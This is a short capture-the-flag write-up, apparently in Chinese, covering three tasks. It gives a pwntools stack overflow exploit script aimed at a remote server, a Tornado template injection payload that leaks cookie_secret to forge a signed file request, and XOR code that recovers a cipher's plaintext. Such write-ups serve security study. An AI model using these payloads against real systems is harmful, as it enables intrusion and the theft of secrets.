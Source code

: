 

## gettingstart
简单栈溢出覆盖变量的值

```python
from pwn import *
import struct
p = remote("49.4.79.81",30538)

payload = "a"*0x18+p64(0x7FFFFFFFFFFFFFFF)+struct.pack('d',0.1)
#payload = p64(0xdeadbeefdeadbeef)*3 + p64(0x7fffffffffffffff)
#payload += p64(0x3fb999999999999a) + p64(0x9e0bd7fc69d6cf00)
p.recv()
p.sendline(payload)

p.interactive()
```

# web
## easy_tornado 

`http://49.4.78.81:30299/error?msg=1`  
存在模板注入   
`http://49.4.78.81:30299/error?msg={{handler.settings}}` 获取 `cookie_secret`   
由提示得 `md5(cookie_secret + md5('/fllllllllllag'))`  
最后将 `filename` 改为 /`fllllllllllag`,签名改为生成的 md5 值即可   

# crypto
## Fez
化简可得 `Result = ini_R ^ K1 ^ K2 ^ k4 ^ K5 + ini_L ^ ini_R ^ K0 ^ K2 ^ K3 ^ K5`
设 `x = K1 ^ K2 ^ k4 ^ K5 ; y = K0 ^ K2 ^ K3 ^ K5`
```py
# -*- coding:utf8 -*-

def xor(a,b):
  assert len(a)==len(b)
  c=""
  for i in range(len(a)):
      c+=chr(ord(a[i])^ord(b[i]))
  return c
test = '0b7361c8143e5935f9f5be3949cc07ed7a5ba6f258ebd91f29c5a7d16976f8dfb7fa422a6167281e573d015cc6d995841d5cab07923c'
fez = 'f46d9ffa6a28a3fc2aa17c244ec29fc6a7bf5cac0da4489ad53782f1ef66597dc2928517b56693347ad468154e6f0f1ff8501fa6a1b1'
result = '44668860d4e23030bd4a0981530bc1d6da1a20f821aa51941258862cfb716cac503d0f0dcec150171aecfe4d86839f346ff26f2a6a70'

test = test.decode('hex')
fez = fez.decode('hex')
result = result.decode('hex')

x = xor(fez[0:27], test[27:54])
y = xor(xor(test[0:27], test[27:54]), fez[27:54])

R = xor(result[0:27], x)
L = xor(xor(result[27:54], R), y)
print L + R

```
